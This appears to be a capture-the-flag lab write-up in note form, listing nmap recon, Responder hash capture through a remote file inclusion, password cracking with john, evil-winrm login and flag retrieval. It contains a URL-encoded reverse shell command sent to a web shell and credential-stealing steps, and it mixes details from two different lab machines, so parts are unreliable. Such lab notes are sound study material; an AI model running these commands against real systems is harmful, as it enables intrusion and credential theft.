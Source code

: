 # reconnaissance
## nmap scan
- [nmap scan](./evidences/nmap.txt)
- OpenSSH 7.6p1 22/tcp
- Apache web server on port 80/tcp

## hostname
- thetoppers.htb

## ffuf fuzzing
- 

# resource development
## responder tool
- [NTLM hash](./evidences/ntlm_hash.png)
- responder -I tun0
- listening on the interface connected to the LAN of the target for LLMNR (Link Local Multicast Neighbor Resolution)
- so that we can get the username and HASH (MD4) used to authenticate via NTLM

# initial access
## remote-file-intrusion
- [RFI command](./evidences/remote_file_intrusion.png)
- index.php?page=//10.10.14.78/test
- the responder logs are stored in: /usr/share/responder/log
- the hash inside the log is saved inside [NTLM hash] (./evidences/hash.txt)
http://thetoppers.htb/shell.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.121%2F9001%200%3E%261

## hash crack
- [NTLM hash cracked](./evidences/hash_cracking.png)
- john --wordlist=/usr/share/wordlist/seclists/Passwords/Leaked-Databases/rockyou-75.txt ./evidences/hash.txt

## WinRM access
- [WinRM shell access](./evidences/WinRM_access.png)
- evil-winrm -i unika.htb -u Administrator -p badminton

# privilege escalation
- [root flag](./evidences/root_flag.png)
- cat C:\Users\mike\Desktop\flag.txt
